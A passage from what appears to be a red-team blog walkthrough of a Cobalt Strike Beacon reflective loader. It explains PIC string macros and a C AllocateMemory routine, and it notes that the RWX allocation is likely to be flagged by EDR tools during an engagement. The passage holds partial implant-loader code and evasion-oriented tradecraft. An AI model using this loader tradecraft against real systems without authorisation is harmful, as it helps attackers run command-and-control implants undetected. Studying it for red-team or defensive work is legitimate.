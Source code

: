 ```c
        PRINT("[-] Failed to find address of key loader function. Exiting..\n");
        return NULL;
    }
```

## PRINT() & Strings

A very nice addition by the dev team is that they included a way to output strings to be used as a part of the debugging process. Normally strings are stored in the .data/.rdata section but since our UDRL exclusively lives in the .text section, we won't have access to these strings.

The solution for this, commonly used in other loaders, is to use char arrays. Using this while developing is cumbersome is takes a while. Thus the implementation of the PIC_STRING() macro is very welcome.

We can use two macro's included in this project.

- PIC_STRING : convert any string to a char array
- PRINT : manually created `_printf()`, works exactly alike (debug mode only)

<br>

```c
// STEP 1a: a simple PIC string example
PIC_STRING(example, "[!] Hello, World!\n");
PRINT(example);
```

## AllocateMemory()

To be able to move our DLL into the process we need to allocate some memory. If the allocation is successful we get the base address of the new memory block.

```c
// STEP 2: create a new location in memory for our image...
ULONG_PTR newBeaconBaseAddress = AllocateMemory(beaconNtHeader, &winApi);
if (newBeaconBaseAddress == NULL) {
    PRINT("[-] Failed to allocate memory for Beacon. Exiting..\n");
    return NULL;
}
else {
    PRINT("[+] Allocated memory for Beacon: 0x%p\n", newBeaconBaseAddress);
}
```

Looking into the `AllocateMemory()` function, we immediately see some interesting **OPSEC unsafe** stuff we'll have to think about before using it during an engagement. We're allocating RWX memory which will definitely stand out a lot to EDR/EPP tooling.

In summary, the function determines the size of memory required to load a target DLL and then uses the VirtualAlloc function to allocate that memory. The function returns the base address of the allocated memory block.

```c
/**
 * Allocate the memory required to load the target DLL.
 *
 * @param ntHeader A pointer to the target DLL's NT header.
 * @param winApi A pointer to a structure of WINAPI pointers. 
 * @return A pointer to the start address of the newly created memory.
*/
ULONG_PTR AllocateMemory(PIMAGE_NT_HEADERS ntHeader, PWINDOWSAPIS winApi) {
	DWORD bufferSize = ntHeader->OptionalHeader.SizeOfImage;
	/**
	* allocate all the memory for the DLL to be loaded into. we can load at any address because we will relocate the image
	* we're using PAGE_EXECUTE_READWRITE as it's an example, but note - stage.userwx "true";
	*/
```